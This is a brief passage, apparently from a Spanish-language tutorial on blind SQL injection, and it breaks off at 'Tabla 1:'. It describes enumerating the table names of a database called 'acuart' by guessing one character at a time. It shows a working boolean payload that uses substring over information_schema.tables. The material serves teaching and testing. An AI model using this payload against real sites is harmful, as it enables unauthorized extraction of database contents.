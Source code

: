 ![av. cant. car. de tbl](/assets/img/screens/av_car_tbl1.png)

La cláusula LIMIT recorrió los valores del 0 al 7 debido a que el índice 0 es la primera tabla.<br>
La máxima cantidad de caracteres de las 8 tablas es 9.

<br>
"Visualizando" tablas de la base de datos actual:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND substring((SELECT table_name FROM information_schema.tables WHERE table_schema="acuart" LIMIT n,1),x,1)='x';#</font></pre>

<br>
Tabla 1: